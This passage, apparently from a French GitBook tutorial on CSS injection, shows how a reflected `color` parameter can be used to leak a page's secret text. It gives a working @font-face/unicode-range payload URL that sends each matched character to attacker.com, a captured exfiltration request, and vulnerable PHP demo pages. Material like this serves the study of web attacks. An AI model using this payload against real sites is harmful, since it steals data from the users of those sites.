 ```html
```
{% endcode %}

Le lien malicieux permettant l'exploitation en fonction de la valeur de l'attribut `class` est alors le suivant :

{% code overflow="wrap" %}
```
https://vulnerable.com/font-face-et-descripteur-unicode-par-class.php?color=red;}@font-face{font-family:attack;src:url(https://attacker.com/?leak=s);unicode-range:U%2b0073;}.secret{font-family:attack;}
```
{% endcode %}

{% hint style="warning" %}
Attention à bien encoder le caractère "+" par son équivalent URL encodée "%2b".
{% endhint %}

{% code overflow="wrap" %}
```http
GET /?leak=s HTTP/1.1
Host: attacker.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Referer: https://vulnerable.com
Connection: close
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (9) (3).png" alt=""><figcaption></figcaption></figure>

Dans le cas où il existe plusieurs éléments HTML portant le nom de `class`, il est possible de cibler précisément celle désirée en utilisant la pseudo-classe CSS `nth-child(n)` ([https://developer.mozilla.org/fr/docs/Web/CSS/:nth-child](https://developer.mozilla.org/fr/docs/Web/CSS/:nth-child)) :&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <style>
     h1 {
        color: <?php echo htmlspecialchars($_GET['color'], ENT_QUOTES | ENT_SUBSTITUTE | ENT_HTML5, "UTF-8") ?>;
      }
  </style>
  </head>
  <body>
    <h1>Injection CSS - récupération de la valeur d'un élément HTML par sa class via @font-face, descripteur unicode et nth-child()</h1>
    <span class="secret">notImportant</span>
    <span class="secret">s3cr3t</span>
  </body>
</html>
```
{% endcode %}
